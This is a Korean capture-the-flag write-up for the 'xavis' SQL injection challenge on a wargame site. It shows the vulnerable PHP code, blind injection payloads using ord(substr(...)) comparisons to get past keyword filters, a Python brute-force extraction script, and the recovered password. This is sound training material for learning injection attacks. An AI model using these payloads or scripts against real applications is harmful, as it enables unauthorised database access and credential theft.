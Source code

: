 # xavis

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- `regex`와 `like`를 필터링한다. (..?)

## 3. Solution

이번 문제는 상당히 애를 먹었던 문제이다.<br>
우선, 하나 말하자면 패스워드는 유니코드다.<br>
`_`가 핉터링되지 않았다면, `bit_length`함수를 통해 쉽게 알 수 있었겠다.<br>


<br>
`ascii`함수는 안되고 `ord`는 되는 모습을 보고 유니코드임을 직감하였다.<br>


그 많은 범위를 다 확인해볼 시간적 여유가 없기때문에, `BMP`부분(Basic Multilingual Plane)을 확인해보았다.<br>
그 중에서도 크게 0x100씩 범위를 지정하여 대소비교를 해주어, 세분화 시켰다.<br>

변수명 | 값
---|---:
`pw` | 1234' or id='admin' and ord(substr(pw,i,1))>j #



<br>이후, 찾은 범위 내에서 정확한 값을 찾았다.<br>
빈 문자열인 경우 0을 반환하기에, 0이 나올때 까지 진행하였다.<br>

변수명 | 값
---|---:
`pw` | 1234' or id='admin' and ord(substr(pw,i,1))=j #



스크립트 속 변수 `i`와 `j`를 두는데, 역할은 다음과 같다.
변수명 | 값
---|---:
`i` | pw의 한 문자 index
`j` | 문자 값 비교를 위한 변수 (0x00 ~ 0xffff)


```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

fin_flag = False
pw_value = ""
for i in range(20):
    for j in range(0x00, 0x10000, 0x100):
        url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?\
                pw=1234' or id='admin' and ord(substr(pw,%d,1))<%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            range_st = j - 0x100
            range_fin = j
            print("pw(%d) in %s ~ %s" % (i+1, hex(range_st), hex(range_fin)))
            break
    
    for j in range(range_st, range_fin+1):
        url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php?\
                pw=1234' or id='admin' and ord(substr(pw,%d,1))=%d %%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            if (j==0):
                print("done!")
                fin_flag = True
                break
                
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
    
    if(fin_flag):
        break
            
print("pw :", pw_value)
```

스크립트 결과는 다음과 같다.
```
pw(1) in 0xc600 ~ 0xc700
pw(1) : 우
pw(2) in 0xc600 ~ 0xc700
pw(2) : 우왕
pw(3) in 0xad00 ~ 0xae00
pw(3) : 우왕굳
pw(4) in 0x0 ~ 0x100
done!
pw : 우왕굳
```



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.
변수명 | 값
---|---:
`pw` | 우왕굳